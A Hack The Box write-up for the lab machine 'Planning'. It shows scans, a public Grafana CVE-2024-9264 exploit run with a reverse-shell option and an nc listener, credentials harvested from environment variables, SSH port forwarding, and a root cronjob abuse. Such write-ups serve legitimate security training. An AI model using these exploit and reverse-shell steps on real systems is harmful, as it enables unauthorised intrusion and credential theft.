




HTB: Planning
Planning is a linux-based machine that its difficulty is easy.

HTB: Planning
- At the beginning the machine provides us with some credentials admin/0D5oT70Fq13EvB5r with no other details.
Initial recon
- First thing first is scan to see what services are running on the machine.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
nmap -sVC -v 10.10.11.68
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-22 15:00 +07
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating Ping Scan at 15:00
Scanning 10.10.11.68 [4 ports]
Completed Ping Scan at 15:00, 0.27s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:00
Completed Parallel DNS resolution of 1 host. at 15:00, 0.05s elapsed
Initiating SYN Stealth Scan at 15:00
Scanning 10.10.11.68 [1000 ports]
Discovered open port 22/tcp on 10.10.11.68
Discovered open port 80/tcp on 10.10.11.68
Discovered open port 8001/tcp on 10.10.11.68
Completed SYN Stealth Scan at 15:00, 2.25s elapsed (1000 total ports)
Initiating Service scan at 15:00
Scanning 3 services on 10.10.11.68
Completed Service scan at 15:00, 6.53s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.11.68.
Initiating NSE at 15:00
Completed NSE at 15:00, 6.73s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 1.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Nmap scan report for 10.10.11.68
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_ 256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
8001/tcp open http SimpleHTTPServer 0.6 (Python 3.12.3)
|_http-server-header: SimpleHTTP/0.6 Python/3.12.3
|_http-title: Directory listing for /
| http-methods:
|_ Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
NSE: Script Post-scanning.
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Initiating NSE at 15:00
Completed NSE at 15:00, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.30 seconds
Raw packets sent: 1005 (44.196KB) | Rcvd: 1002 (40.080KB)
- The ports 22 (SSH), 80(HTTP), 8001(HTTP Simple Server) are open.
- HTTP ports redirect to planning.htb
- Therefore, update /etc/hosts:
10.10.11.68 planning.htb
Enumerate as hard
- Started by looking around at the website, but nothing important, so tried port 8001 which is a directory listing.
- Saw something interesting, which contains a bunch of files. The interesting file was “CVE-2024-9264”.
- Google it and found that it is related to “Grafana” a multi-platform open source analytics and interactive visualization web app.
- Brute force for sub-directory enumeration.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" -w /usr/share/seclists/Discovery/DNS/services-names.txt -c -t 100 -fs 178
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://planning.htb
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/DNS/services-names.txt
:: Header : Host: FUZZ.planning.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 100
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response size: 178
________________________________________________
grafana [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 247ms]
:: Progress: [1419/1419] :: Job [1/1] :: 382 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
- “grafana” found. added the new entry to /etc/hosts, and visited the app see a login page. I google to look for CVE-2024-9264 since i have clue on port 8001.
- i use the PoC from this “https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit”
1
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.123 --reverse-port 9001
- for the username and password i take from the provided credential in HTB and it works. So i setup the listener on my machine.
1
2
3
4
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.123] from (UNKNOWN) [10.10.11.68] 38302
sh: 0: can't access tty; job control turned off
Gained initial foothold
- we are root, yet no flags.
- Look for environment variables. found a credential.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=/usr/bin/sh
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana
- Used the ADMIN_PASSWORD & ADMIN_USER to log in and finally we get in the machine as enzo.
enzo@planning:~$ cat user.txt - Run linpeas.sh:

- Found file that is suspicious inside
/opt/crontab/crontab.db.
- Found another password.
- After enumeration long time.

- The machine is host another app on port 8000. It is suspicious so I port forwarding.
ssh -L 8000:127.0.0.1:3000 enzo@planning.htb - Use SSH it is easy.
- Open browser, type localhost:8000 and it requires credential to access.
- Enter the username root and password the one we just found.
- We got access to Crontab UI.

- So I create new cronjob which is cat /root/root.txt > /tmp/flag.
- Execute it and go to /tmp, cat the flag! We are done.


Thanks for reading my writeup!
This post is licensed under CC BY 4.0 by the author.